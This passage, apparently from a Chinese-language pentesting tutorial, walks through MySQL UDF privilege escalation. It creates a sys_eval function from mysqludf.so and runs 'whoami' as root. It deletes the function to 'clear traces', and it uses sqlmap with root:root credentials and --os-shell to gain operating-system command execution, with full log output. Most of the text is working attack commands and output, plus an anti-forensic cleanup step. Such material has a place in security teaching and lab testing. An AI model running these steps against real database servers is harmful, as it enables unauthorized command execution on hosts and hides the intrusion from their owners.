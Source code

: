 ## 创建sys_eval函数

```python
mysql> create function sys_eval returns string soname "mysqludf.so";
Query OK, 0 rows affected (0.03 sec)
mysql>
```

函数操作

```python
# 调用函数
mysql> select sys_eval('whoami');
+--------------------+
| sys_eval('whoami') |
+--------------------+
| root               |
+--------------------+
1 row in set (0.03 sec)

# 查看函数
mysql> select * from mysql.func;
+----------+-----+-------------+----------+
| name   | ret | dl     | type   |
+----------+-----+-------------+----------+
| sys_eval |  0 | mysqludf.so | function |
+----------+-----+-------------+----------+
1 row in set

# 删除函数（清除痕迹）,如果要删除函数,必须udf文件还存在plugin目录下
drop function sys_eval;
或
delete from mysql.func where name='sys_eval';
```

## 利用sqlmap

全自动化

```python
sqlmap.py -d "mysql://root:root@172.20.10.9:3306/mysql" --os-shell

...
[11:53:40] [INFO] connection to MySQL server '172.20.10.9:3306' established
[11:53:40] [INFO] testing MySQL
[11:53:40] [INFO] confirming MySQL
[11:53:40] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[11:53:40] [INFO] fingerprinting the back-end DBMS operating system
[11:53:40] [INFO] the back-end DBMS operating system is Linux
[11:53:40] [INFO] testing if current user is DBA
[11:53:40] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[11:53:45] [INFO] checking if UDF 'sys_exec' already exist
[11:53:45] [INFO] checking if UDF 'sys_eval' already exist
[11:53:50] [INFO] detecting back-end DBMS version from its banner
[11:53:50] [INFO] the local file '/var/folders/bx/zb9__nb1591g_r8k78p5p0gr0000gn/T/sqlmap_5_qd1_y51533/lib_mysqludf_sysp478pm69.so' and the remote file './libsoxbd.so' have the same size (8040 B)
[11:53:50] [INFO] creating UDF 'sys_exec' from the binary UDF file
[11:53:50] [INFO] creating UDF 'sys_eval' from the binary UDF file
[11:53:50] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
```